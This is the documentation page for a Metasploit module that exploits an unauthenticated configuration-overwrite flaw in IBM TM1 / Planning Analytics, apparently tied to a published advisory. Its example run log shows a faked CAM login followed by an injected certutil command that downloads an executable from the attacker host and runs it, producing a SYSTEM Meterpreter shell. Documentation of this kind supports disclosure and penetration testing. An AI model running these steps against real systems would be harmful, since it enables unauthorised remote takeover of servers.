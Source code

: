 ## Module description
This module exploits a vulnerability in IBM TM1 / Planning Analytics that allows an unauthenticated attacker to perform a configuration overwrite.
It starts by querying the Admin server for the available applications, picks one, and then exploits it. You can also provide an application name to bypass this step, and exploit the application directly.
The configuration overwrite is used to change an application server authentication method to "CAM", a proprietary IBM auth method, which is simulated by the exploit.
The exploit then performs a fake authentication as admin, and finally abuses TM1 scripting to perform a command injection as root or SYSTEM. 

Testing was done on IBM PA 2.0.6 and IBM TM1 10.2.2 on Windows and Linux. 

Versions up to and including PA 2.0.8 are vulnerable. It is likely that versions earlier than TM1 10.2.2 are also vulnerable (10.2.2 was released in 2014).

Users are encouraged to share success stories with the module author. For more information, check the full advisory at https://raw.githubusercontent.com/pedrib/PoC/master/advisories/ibm-tm1-rce.txt.


## What does this module do
This module starts by querying the Admin server, which usually runs on port 5498 with SSL enabled, or 5495 without SSL. This can be queried by a normal client without authentication, and with that we retrieve a list of applications, the servers where they are running, the ports where they are running, and if they use SSL or not.

Note that there might be cases where the applications do not run on the same host as the Admin server; however this is expected to be rare. Even in that case, the exploit should work perfectly, as it uses the information from the Admin server to connect to the Application server host, and automatically sets up SSL if needed.

If you know the application name, port and SSL status, you can enter this directly into the exploit, which then will not perform the Admin server query. For this, enter the application port in the `RPORT` option, whether it uses SSL in the `SSL` option, and finally set `APP_NAME` to the application name.

## Vulnerable Application

To obtain the vulnerable application you need an official IBM installer for IBM Planning Analytics or IBM TM1. This exploit works perfectly for both Windows and Linux targets.

## Verification Steps
  1. Install the application
  2. Start msfconsole
  3. Do: ```use [module path]```
  4. Do: ```set srvhost [lhost]```
  5. Do: ```set target [0|1]```
  6: Do: ```set rhost [rhost]```
  7. Do: ```run```
  8. You should get a shell.
  
  
## Example run
```
[*] Started reverse TCP handler on 192.168.1.1:4444
[*] 192.168.1.138:5498 - Connecting to admin server and obtaining application data
[+] 192.168.1.138:5498 - Found app GO_New_Stores tcp ip: 192.168.1.138 port: 45557 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app GO_Scorecards tcp ip: 192.168.1.138 port: 54321 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app Planning Sample tcp ip: 192.168.1.138 port: 12345 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app proven_techniques tcp ip: 192.168.1.138 port: 17797 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app SData tcp ip: 192.168.1.138 port: 12346 available: 1 SSL: 1
[*] 192.168.1.138:5498 - Picked SData as our target, connecting...
[+] 192.168.1.138:5498 - Current auth method is 1, we're good to go!
[*] 192.168.1.138:5498 - Starting up the fake CAM server...
[*] 192.168.1.138:5498 - Using URL: http://192.168.1.1:4466/
[*] 192.168.1.138:5498 - Changing authentication method to 4 (CAM auth)
[*] 192.168.1.138:5498 - Authenticating using CAM Passport and our fake CAM Service...
[+] 192.168.1.138:5498 - CAM: Received first CAM query, responding with account info
[+] 192.168.1.138:5498 - CAM: Received second CAM query, responding with session info
[+] 192.168.1.138:5498 - CAM: Received third CAM query, responding with random garbage
[*] 192.168.1.138:5498 - Creating our Process object...
[*] 192.168.1.138:5498 - Adding command :"certutil.exe -urlcache -split -f http://192.168.1.1:4466/ C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Adding command :"C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Registering the Process object under the name 'cRKnsLzFFwDI'
[*] 192.168.1.138:5498 - Now let's execute the Process object!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[*] Sending stage (180291 bytes) to 192.168.1.138
[*] Meterpreter session 6 opened (192.168.1.1:4444 -> 192.168.1.138:49306) at 2020-03-27 12:24:55 +0700
[*] 192.168.1.138:5498 - Restoring original authentication method 1
[*] 192.168.1.138:5498 - Server stopped.
[!] 192.168.1.138:5498 - This exploit may require manual cleanup of 'C:\Windows\Temp\KWFUmh.exe' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...
```

## Options
  - SSL: whether to use SSL to connect to the Admin / Application server (default true)
  - APP_NAME: application name to use to connect directly, bypassing Admin server query (default unset).
  - AUTH_ATTEMPTS: number of attempts to authentication to the fake CAM server (default 10)

## Author
Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security
